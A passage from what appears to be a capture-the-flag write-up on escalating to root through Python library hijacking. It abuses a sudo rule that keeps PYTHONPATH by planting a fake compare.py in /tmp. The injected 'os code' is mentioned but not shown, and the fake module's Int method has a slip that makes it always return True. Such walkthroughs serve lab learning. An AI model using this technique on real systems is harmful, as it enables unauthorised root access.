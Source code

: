 ```console
ls -l /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py
```
- But see to run import a library as root, it sets path to search libraries `mail_badpass, env_keep+=PYTHONPATH`, we can use [this](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) exploit.
- Let's see the source code 

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
- It is importing a library named compare searched for a file name `compare.py`.

```console
find / -name "compare.py" 2>/dev/null
/usr/lib/python3.5/compare.py
```

- Made a file named `compare.py` in `/tmp` with source code.

```python
class compare:

	def Str(self, x, y,):
		x = str(x)
		y = str(y)

		if x == y:
			return True;
		else:
			return False;

	def Int(self, x, y,):
		x = int(x)
		y = int(y)

		if x == y:
			return True;
		else:
			return True;

	def Float(self, x, y,):
		x = float(x)
		y = float(y)

		if x == y:
			return True;
		else:
			return False;
```
- If we will see source code of `/opt/development/test_module.py`, all the data is in string type, and "hello"=="hello".
- Added os code in `Str` function under `if x==y` 
